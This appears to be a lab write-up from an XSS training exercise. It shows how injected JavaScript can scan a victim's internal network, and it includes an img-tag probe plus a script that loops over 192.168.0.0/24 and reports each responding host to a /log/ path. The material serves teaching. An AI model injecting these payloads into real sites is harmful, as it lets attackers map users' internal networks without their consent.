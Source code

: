 # Using XSS for IP and Port Scanning

- Cross-site scripting can be used for all sorts of mischief, one being the ability to scan a victims internal network and look for open ports. 

- If an attacker is interested in what other devices are connected on the network, they can use ***Javascript*** to make requests to a range of **IP addresses** and determine which one responds.


# Task:

**1. Understand the basic proof of concept script.**

**2. Then create a file on your computer with the script, modify it to suit your network and run it. See if it picks up any of your devices that has a webserver running.**

### On the XSS Playground, go to the IP/Port scanning tab and review a script to scan the internal network.

- On the **application layer** your browser has no notion of **internal and external IP** addresses. So any website is able to tell your browser to request a resource from your internal network.

- For example, a website could try to find if your router has a web interface at **<ins>192.168.0.1</ins>** by:

  ```
  <img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
  ```

- Please keep in mind this is a [proof of concept]() and there are many factors that will effect results such as response times, firewall rules, cross origin policies and more. 
- Our browsers can conduct a basic network scan and infer about existing IP's, hostnames and services. As this is a learning exercise assume the factors do not apply here.

- **The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255**

  ```
  <script>
  for (let i = 0; i < 256; i++) 
  { 
    let ip = '192.168.0.' + i        
    let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
    document.body.innerHTML += code 
  }
  </script> 
  ```
  
- After you've found an **valid IP** you can then use the same method above and include a port number.
- However, the method described here only works with web servers (as its looking for the favicon image). 

- A more detailed port scanner can be found [here](https://github.com/aabeling/portscan). 
- As previously stated, this page is a proof of concept, you can create scripts which have much more capability.


